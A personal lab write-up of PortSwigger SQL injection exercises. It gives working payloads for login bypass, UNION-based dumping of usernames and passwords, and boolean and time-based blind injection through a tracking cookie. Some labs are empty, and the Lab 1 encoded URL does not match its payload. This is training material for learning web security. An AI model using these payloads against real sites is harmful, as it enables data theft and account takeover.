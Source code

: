 # SQL Injection

 - [Retrieving hidden data](#retrieving-hidden-data)
 - [UNION attacks](#union-attacks)
 - [Blind SQL injection](#blind-sql-injection)

Details at [here](https://portswigger.net/web-security/sql-injection)

Type of SQL injection in example

- [Retrieving hidden data](#retrieving-hidden-data)
- [UNION attacks](#union-attacks)
- [Blind SQL injection](#blind-sql-injection)

## Retrieving hidden data

Modify an SQL query to return additional results

[Lab 1](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

Description of this lab: the query of 1 category `Gifts`

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

And sample URL query: `https://example.com/filter?category=Gifts`

Goal: display details of all products in any category, both *released and unreleased*

`SELECT * FROM products WHERE category = '' or '1'='1' AND released = 1`

We just only adjust in `category=` and put into `''`, so the final payload:
`' or '1'='1` or `https://example.com/filter?category=%27%20or%20%271%27or%271` 

[Lab 2](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

Description of this lab: inject in login page as username: administrator

So we need to modify the password, and check the password with the previous payload: `' or '1'='1`, and it worked

## UNION attacks

Detail found at [here](https://portswigger.net/web-security/sql-injection/union-attacks)

See cheatsheet [here](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[Lab 3](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

Description of this lab: vulnerability in the product category filter, use a UNION attack to retrieve data from other tables

Firstly, we need to identify the number of columns in the table, and use payload: `' ORDER BY <number-of-column> --` to check, after we use `' ORDER BY 4 --`, we got the error `Internal Server Error` so the column is 3.

Finally, we use `' UNION SELECT NULL, NULL, NULL--` to make a union attack at `/filter?category=` then solved this challenge.

[Lab 4](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

Description of this lab: You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data. After that, alter NULL to random text on the homepage, for example: 'qG26iL'

Do as same as the previous one with `' UNION SELECT NULL, NULL, NULL--`. After trying, the final payload is `' UNION SELECT NULL, 'qG26iL', NULL--`

[Lab 5](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

Description of this lab: The database contains a different table called users, with columns called username and password

In this lab, there are 2 columns in this table

Do the same as the previous one with `' UNION SELECT NULL, NULL--`. Follow the description, and change NULL to username and password. Moreover, we need access to a table named `users`, so the payload is: `' UNION SELECT username, password FROM users--`, then we got all username and password.

Login with the password of user `administrator`: nq3glruptcrilo0yscf6 and solved the lab.  

[Lab 6](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

This lab has the same description as the previous one but we need to retrieve multiple values in a single column. Furthermore, in this lab, we can use only the second column.

Look at the cheatsheet, we can use the string concatenation technique. After trying, we found this lab use `||` for concatenate string. The final payload is `' UNION SELECT NULL, username||':'||password FROM users--` to get all usernames and passwords.

Login with the password of user `administrator`: 532codf0er823llefy7x and solved the lab. 

[Lab 7](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

Description of this lab: display the database version string of Oracle

In this lab, the available number of columns is 2. Look at the cheatsheet, try with: `SELECT banner FROM v$version` and the final payload is: `' UNION SELECT banner, NULL FROM v$version--`, then solved the lab.

[Lab 8](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

This lab has the same description as the previous one, but for MySQL and Microsoft.

The final payload is `' UNION SELECT @@version, NULL#`, we will change `v$version` to `@@version`, `--` to `#`, then solved the lab.


[Lab 9](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

Description of this lab: You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

This lab has 2 available cloumns, we need to determine the name of table first. However, determine the version of database. After trying, `' UNION SELECT version(), NULL--` worked and result is `PostgreSQL 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit`

Check the cheatsheet, found database contents with PostgreSQL using `' UNION SELECT table_name, NULL FROM information_schema.tables--`. So there are a lot of tables, find the column of table `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_ahngdj'--`, the result is colunms names: username_ivoiag and password_vxgmam

The final payload is `' UNION SELECT username_ivoiag, password_vxgmam FROM users_ahngdj--`, the password of administrator is l9jw2he0g1jr5zzndr3o. Login with this password, then solved the lab.

[Lab 10](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

This lab has the same description as the previous one, but for oracle.

Get all table name in database with `' UNION SELECT table_name, NULL FROM all_tables--`, and the name of table which we need to access is USERS_NOFLTA then use `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_NOFLTA'--` to get name of password and username column: PASSWORD_EVVZCC & USERNAME_ETTQUM.

The final payload is: `' UNION SELECT USERNAME_ETTQUM, PASSWORD_EVVZCC FROM USERS_NOFLTA--` and get password of administrator is qhwrw9aos6k2p2uodezp, login and solved the lab.

## Blind SQL injection 

[Lab 11](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

Description of this lab: The results of the SQL query are not returned, and no error messages are displayed. But the application includes a **Welcome back** message in the page if the query returns any rows. The application uses a tracking **cookie** for analytics, and performs an SQL query containing the value of the submitted cookie.   

The database contains a different table called **users**, with columns called **username and password**, find out the password of the administrator user.

So we need modify cookie, when we use burpsuite, and open page, we will get cookie like this: `Cookie: TrackingId=78FpD4ERhK86IMIp; session=cjruWYG4ZqnnopctvKK3e3DJS2nN8eM2`. 

If we modify session, the website will be loss data of this session, so we will modify TrackingID `Cookie: TrackingId=78FpD4ERhK86IMIp+'+or+1=1--; session=cjruWYG4ZqnnopctvKK3e3DJS2nN8eM2`, and return page including 'Welcome back', so it is right direction. Only thing we can do is making condition. At the first, determine the length of password `Cookie: TrackingId=78FpD4ERhK86IMIp+'or+(SELECT+LENGTH(password)+FROM+users+WHERE+username='administrator')=20--; session=cjruWYG4ZqnnopctvKK3e3DJS2nN8eM2`

Note: using burp intruder for bruting force value in condition 

Nextly, using brute force to guess 20-length password

[Lab 12](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

[Lab 13](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

Description of this lab: exploit the SQL injection vulnerability to cause a 10 second delay.

Using payload similar `Cookie: TrackingId=nTjOlcnGoesLH7fd+'or+pg_sleep(10)--; session=8BYemkFDFxWMOkX21X7uPWmJ0P1fAYRl` to sleep in 10 second, then solved the lab.

[Lab 14](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)







